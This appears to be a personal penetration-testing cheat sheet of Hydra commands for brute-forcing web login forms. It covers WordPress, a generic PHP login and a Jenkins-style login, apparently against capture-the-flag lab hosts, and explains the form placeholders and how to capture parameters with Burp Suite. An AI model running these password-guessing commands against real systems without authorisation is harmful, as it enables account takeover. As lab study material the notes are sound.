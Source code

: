 WordPress
```bash
hydra -L wpusers -P /usr/share/wordlists/rockyou.txt colddboxeasy -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.103.199 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

Simple hydra webform
```bash
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 $IP http-get
```

Generic php login
```bash
hydra -L usernames -P passwords $IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!" 
```
In the above command, the usernames and passwords list is provided and the form parameters are passed as well. ^USER^ placeholder will take in the username from the list ^PASS^ placeholder will take in the password from the list. After submit is the code produced by the failing login

Another example how to craft the hydra command. First using burpsuite.

![](<Pasted image 20240122221235.png>)

Using command to brute force:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP -s 8000 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -V
```

Or using html source:
![](<Pasted image 20240123210025.png>)
 
 hydra command would look like this:
 ```bash
 hydra -L usernames -P passwords $IP http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
